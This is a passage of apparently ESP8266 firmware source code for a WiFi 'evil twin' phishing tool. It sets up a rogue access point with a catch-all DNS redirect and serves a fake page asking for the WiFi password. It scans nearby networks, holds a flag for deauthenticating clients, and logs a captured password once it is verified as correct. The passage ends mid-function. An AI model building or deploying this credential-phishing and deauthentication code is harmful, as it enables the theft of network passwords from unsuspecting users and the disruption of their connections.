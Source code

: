 String footer() {
  return "</div><div class=q><a>&#169; All rights reserved.</a></div>";
}

String index() {
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action='/' method=post><label>WiFi password:</label>" +
         "<input type=password id='password' name='password' minlength='8'></input><input type=submit value=Continue></form>" + footer();
}

void setup() {
  Serial.begin(115200);
  WiFi.mode(WIFI_AP_STA);
  WiFi.softAPConfig(IPAddress(192, 168, 4, 1), IPAddress(192, 168, 4, 1), IPAddress(255, 255, 255, 0));
  WiFi.softAP("WiPhi_34732", "d347h320");
  dnsServer.start(DNS_PORT, "*", IPAddress(192, 168, 4, 1));

  webServer.on("/", handleIndex);
  webServer.on("/result", handleResult);
  webServer.on("/admin", handleAdmin);
  webServer.onNotFound(handleIndex);
  webServer.begin();
}

void performScan() {
  int n = WiFi.scanNetworks();
  clearArray();
  if (n >= 0) {
    for (int i = 0; i < n && i < 16; ++i) {
      _Network network;
      network.ssid = WiFi.SSID(i);
      for (int j = 0; j < 6; j++) {
        network.bssid[j] = WiFi.BSSID(i)[j];
      }
      network.ch = WiFi.channel(i);
      _networks[i] = network;
    }
  }
}

bool hotspot_active = false;
bool deauthing_active = false;

void handleResult() {
  String html = "";
  if (WiFi.status() != WL_CONNECTED) {
    if (webServer.arg("deauth") == "start") {
      deauthing_active = true;
    }
    webServer.send(200, "text/html", "<html><head><script> setTimeout(function(){window.location.href = '/';}, 4000); </script><meta name='viewport' content='initial-scale=1.0, width=device-width'><body><center><h2><wrong style='text-shadow: 1px 1px black;color:red;font-size:60px;width:60px;height:60px'>&#8855;</wrong><br>Wrong Password</h2><p>Please, try again.</p></center></body> </html>");
    Serial.println("Wrong password tried!");
  } else {
    _correct = "Successfully got password for: " + _selectedNetwork.ssid + " Password: " + _tryPassword;
    hotspot_active = false;
    dnsServer.stop();
    int n = WiFi.softAPdisconnect (true);
    Serial.println(String(n));
    WiFi.softAPConfig(IPAddress(192, 168, 4, 1) , IPAddress(192, 168, 4, 1) , IPAddress(255, 255, 255, 0));
    WiFi.softAP("WiPhi_34732", "d347h320");